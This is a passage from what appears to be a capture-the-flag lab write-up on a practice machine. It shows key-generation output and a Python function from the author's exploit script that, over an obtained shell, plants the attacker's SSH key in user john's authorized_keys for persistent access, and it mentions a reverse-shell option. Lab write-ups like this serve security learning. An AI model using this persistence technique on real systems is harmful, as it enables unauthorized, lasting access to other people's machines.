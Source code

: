 ## Privesc to user
Now we have a shell let us enumerate the system.
### Enumeration as john
In order to get a better shell, we can add our SSH-key to john’s authorized_keys file. I have implemented this process directly into the exploit script.
First, we need to generate an SSH-key:
```bash
root@silence:~# ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:uvkz88qKvThvQKQgC6UZAqGlnlahjD/dRiUmBEhv5NU root@silence
The key's randomart image is:
+---[RSA 3072]----+
|B=+=o.+ .        |
|X*= +o E         |
|O= B  .          |
|o.=..o           |
| +o.. o S        |
|.  ... .         |
|     ..          |
|    .+.++        |
|    o+B++*.      |
+----[SHA256]-----+
```
We can now run the exploit script to automatically add our SSH-key to the authorized_keys file, adding the SSH flag. This runs the setup_ssh function.

The setup_ssh function reads our ssh-key and writes to to john’s authorized_keys file.
```python
def setup_ssh(shell):
    key = ""
    path = "id_rsa.pub"
    # Try to read ssh key
    try:
        with open(path,"r") as f:
            key = f.read()
    except:
        log.warning("Could not read ssh key: %s" % path)
        return False # Just get shell

    # Check if key is valid once again
    if key == "":
        log.warning("SSH key %s is empty!" % path)
        return False # Just get shell
    else:
        # Write ssh key
        log.info("Writing ssh-key to /home/john/.ssh/authorized_keys!")
        # Setup environ
        shell.sendline("mkdir -p /home/john/.ssh/ 2>/dev/null")
        shell.recv()
        shell.sendline("echo '" + key + "' > /home/john/.ssh/authorized_keys")
        shell.recv()
        log.success("Written ssh key to authorized_keys! If errors occur, try ./exploit.py REV to get a reverse-shell manually.")
        log.info("Use: ssh john@10.10.10.148 -i %s" % path)
        print("")
        return True # Key written
```
By supply the SSH argument to the exploit script, the setup_ssh function is run:

[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif